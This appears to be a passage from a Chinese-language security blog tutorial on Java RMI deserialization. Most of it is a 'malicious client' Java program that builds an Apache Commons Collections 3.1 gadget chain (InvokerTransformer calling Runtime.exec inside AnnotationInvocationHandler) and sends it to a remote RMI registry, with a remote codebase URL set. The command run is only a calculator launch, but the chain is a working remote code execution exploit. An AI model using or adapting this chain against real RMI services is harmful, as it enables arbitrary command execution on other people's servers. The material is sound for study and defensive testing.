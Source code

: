 Policy 同上



**恶意客户端**

![image-20210219191441593](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210219191441593.png)

`RemoteHello.java`

```java
package Remote1;

import java.rmi.Remote;
import java.rmi.RemoteException;
public interface RemoteHello extends Remote {
    String exp(Object obj) throws RemoteException,Exception;
}
```



`RemoteClient.java`

```java
package Remote1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
public class RemoteClient {
    public static void main(String[] args) throws Exception {
        System.setProperty("java.rmi.server.codebase",
                "http://192.168.0.104:8000/commons-collections-3.1.jar");

        Registry registry = LocateRegistry.getRegistry("192.168.0.100", 1099);
        RemoteHello h = (RemoteHello) registry.lookup("Hello");
        String rs = h.exp(payload());
        System.out.println(rs);
    }
    public static Object payload() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
```